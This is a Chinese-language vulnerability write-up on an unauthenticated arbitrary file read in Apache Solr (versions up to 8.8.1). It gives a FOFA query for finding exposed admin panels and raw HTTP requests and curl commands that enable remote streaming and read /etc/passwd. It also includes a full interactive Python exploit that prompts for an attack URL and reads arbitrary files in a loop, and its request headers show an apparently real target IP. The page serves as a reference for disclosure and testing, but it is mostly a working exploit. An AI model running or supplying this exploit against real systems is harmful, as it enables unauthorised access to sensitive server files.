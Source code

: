 # Apache Solr 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

## 漏洞影响

```
Apache Solr <= 8.8.1
```

## FOFA

```
title="Solr Admin"
```

## 漏洞复现

访问 Solr Admin 管理员页面

![image-20220209120847764](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091208853.png)

获取core的信息

```plain
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```

![image-20220209120905965](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091209053.png)

发送请求

![image-20220209120921295](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091209396.png)

请求包如下

```plain
POST /solr/ckan/config HTTP/1.1
Host: xxx.xxx.xxx:8983
Content-Length: 99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://118.31.46.134:8983
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取

![image-20220209120956306](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091209408.png)

请求包如下

```plain
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```



![image-20220209121017516](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091210638.png)

Curl请求为

```sh
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'

curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"
```

## 漏洞POC

- POC还是建立在未授权访问的情况下

```python
import requests
import sys
import random
import re
import base64
import time
from lxml import etree
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 poc.py     			    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-type":"application/json"
    }
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
        if "This" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, core_name, File_name):
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'stream.url=file://{}'.format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if "No such file or directory" in response.text:    
            print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
        else:
            print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)
    while True:
        File_name = str(input("\033[35mFile >>> \033[0m"))
        POC_3(target_url, core_name, File_name)
```

![image-20220209121044117](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091210263.png)

## 参考文章

https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ